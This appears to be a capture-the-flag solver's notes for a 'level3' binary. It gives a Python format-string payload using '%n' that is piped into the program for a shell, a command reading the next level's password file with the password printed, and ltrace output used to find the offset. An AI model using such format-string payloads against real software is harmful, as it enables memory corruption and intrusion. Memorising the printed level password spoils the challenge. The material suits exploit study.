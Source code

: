 (python -c "print ('AAAA' + '\x8c\x98\x04\x08' + '%x '*4 + 'A'*25 + '%n')"; cat) | ./level3
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa


(python -c "print ('AAAA' + '\x8c\x98\x04\x08' + '%x '*4 + 'A'*24 + '%n')") | ./level3 | wc
64

(python -c "print ('AAAA' + '\x8c\x98\x04\x08' + '%x '*4 + 'A'*24 + '%n')") | ltrace ./level3
__libc_start_main(0x804851a, 1, 0xbffff7a4, 0x8048530, 0x80485a0 <unfinished ...>
fgets("AAAA\214\230\004\b%x %x %x %x AAAAAAAAAAAA"..., 512, 0xb7fd1ac0)         = 0xbffff4f0
printf("AAAA\214\230\004\b%x %x %x %x AA"..., 0x200, 0xb7fd1ac0, 0xb7ff37d0, 0x41414141AAAA�200 b7fd1ac0 b7ff37d0 41414141 AAAAAAAAAAAAAAAAAAAAAAAA
) = 64
+++ exited (status 63) +++



https://nikhilh20.medium.com/format-string-exploit-ccefad8fd66b

